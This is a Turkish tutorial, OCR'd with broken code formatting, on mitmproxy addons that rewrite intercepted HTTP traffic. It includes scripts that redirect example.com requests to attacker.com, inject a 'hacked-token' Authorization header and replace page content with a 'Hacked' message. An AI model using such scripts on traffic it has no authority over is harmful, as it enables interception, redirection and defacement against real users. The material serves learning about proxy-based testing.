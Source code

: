 
MITMProxy ile Otomatik Akış Değiştirme
MITMProxy'yi kullanarak trafik akışını otomatik olarak değiştirmek, yani istek (request) ve yanıt (response) manipülasyonlarını otomatikleştirmek mümkündür. Bunu yapmak için Python scriptleri (addon) kullanabiliriz.

1. MITMProxy Addon ile Otomatik Akış Değiştirme
MITMProxy, "addons" mantığını kullanarak akışı otomatik olarak değiştiren Python scriptleri çalıştırabilir. Bu scriptleri yazıp mitmproxy veya mitmweb ile entegre edebiliriz.
Aşağıda bazı otomatik manipülasyon senaryolarını paylaşacağım.

2. Otomatik İstek (Request) Manipülasyonu
İstekleri otomatik olarak değiştirmek için request(flow) fonksiyonu kullanılır.
**🔹 Örnek 1: User-Agent Değiştirme**
İsteklere otomatik olarak farklı bir User-Agent eklemek:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 flow.request.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
**📌 Bu script, tüm isteklerin User-Agent'ını değiştirir.**

**🔹 Örnek 2: Otomatik GET → POST Dönüştürme**
Eğer tüm GET isteklerini otomatik olarak POST isteğine dönüştürmek isterseniz:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if flow.request.method == "GET":
 flow.request.method = "POST"
 flow.request.content = b"modified\_data=1" # Gönderilen veri

**📌 Bu betik, tüm GET isteklerini POST olarak değiştirir.**

**🔹 Örnek 3: Otomatik Yönlendirme (Redirect)**
Tüm example.com isteklerini attacker.com adresine yönlendirmek için:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "example.com" in flow.request.pretty\_url:
 flow.request.url = flow.request.url.replace("example.com", "attacker.com")
**📌 Bu betik, tüm example.com isteklerini attacker.com adresine yönlendirir.**

**🔹 Örnek 4: Otomatik Header Ekleme**
Bazı API'ler veya uygulamalar, kimlik doğrulama için belirli başlıkları gerektirebilir. Aşağıdaki script, tüm isteklere özel bir API anahtarı ekler:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 flow.request.headers["Authorization"] = "Bearer hacked-token"
**📌 Bu betik, tüm isteklerin başlığına Authorization: Bearer hacked-token ekler.**

3. Otomatik Yanıt (Response) Manipülasyonu
Yanıtları otomatik olarak değiştirmek için response(flow) fonksiyonu kullanılır.
**🔹 Örnek 5: Web Sayfası İçeriğini Değiştirme**
```python
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "example.com" in flow.request.pretty\_url:
 flow.response.text = "# Hacked by MITMProxy
